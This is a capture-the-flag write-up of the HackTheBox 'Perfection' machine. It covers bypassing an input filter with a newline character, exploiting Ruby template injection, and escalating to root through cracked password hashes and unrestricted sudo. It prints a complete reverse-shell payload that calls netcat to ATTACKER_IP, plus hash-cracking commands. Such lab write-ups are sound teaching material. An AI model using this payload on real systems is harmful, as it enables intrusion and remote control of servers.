 # HackTheBox - Perfection

I started with the usual portscan.

`nmap -p- -T4 -sV -sC <IP>`

![Screenshot0](./screenshots/0.png)

We see two open ports.

An SSH server on port 22 and a web server on port 80.

So I took a look at the website.

![Screenshot1](./screenshots/1.png)

We see a website that provides a grade calculator for us under `/weighted-grade`.

![Screenshot2](./screenshots/2.png)

I gave input to the calculator and intercepted in __Burp__.

![Screenshot3](./screenshots/3.png)

![Screenshot4](./screenshots/4.png)

I tried to manually pass different input to the application, fuzzed with different payload lists of different exploit types to provoke error messages and generally detect anomalies.

I didn't get much out of it, but always this message __Malicious input blocked__.

![Screenshot5](./screenshots/5.png)

I tried various command injection bypasses and when I injected a `%0A`, i.e. a newline character, I noticed that the previously blocked characters were now being displayed as shown here:

![Screenshot6](./screenshots/6.png)

First I tried it with __Linux Command Injection__ and then I remembered that this is a __Ruby__ application, which we can figure out with a simple `404` error message.

![Screenshot7](./screenshots/7.png)

So I added a url encoded ruby SSTI-POC and got to see the classic 49!

![Screenshot8](./screenshots/8.png)

![Screenshot9](./screenshots/9.png)

Hoooray, now it was clear what to do and I looked for a Ruby reverse SSTI payload, set a netcat listener and got a reverse shell.

__My Reverse Payload:__

```
category1=math%0A%3C%25=%20system('busybox%20nc%20<ATTACKER_IP>%209001%20-e%20/bin/bash')%20%25%3E&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

And I got a reverse shell and the first flag.

![Screenshot10](./screenshots/10.png)

<br>
<br>

## susan -> root

The Privilege Escalation was quite straightforward.

I first ran Linpeas and noticed that Linpeas found mails.

![Screenshot11](./screenshots/11.png)

`cat /var/mail/susan`

![Screenshot12](./screenshots/12.png)

Okay, if we read the mail, I guess the next step is to crack custom crafted password hashes.

I found password hashes in a SQLite file under the path  `/home/susan/Migration/pupilpath_credentials.db`which I downloaded to my machine.

`sqlitebrowser pupilpath_credentials.db`

![Screenshot13](./screenshots/13.png)

With hashcat I now cracked the hashes as follows with the attack mode `3` (brute force) and searched for the correct number suffix by always trying `?d` one more.After a short time the hash was cracked:

__Cracking Command:__ `hashcat -m 1400 -a3 hashes.txt {firstname}_{firstname backwards}_?d...`

![Screenshot14](./screenshots/14.png)

With `sudo -l` I checked which commands we can call under sudo, saw that we had no sudo restrictions, jumped to root with `sudo su` and got the flag.

![Screenshot15](./screenshots/15.png)

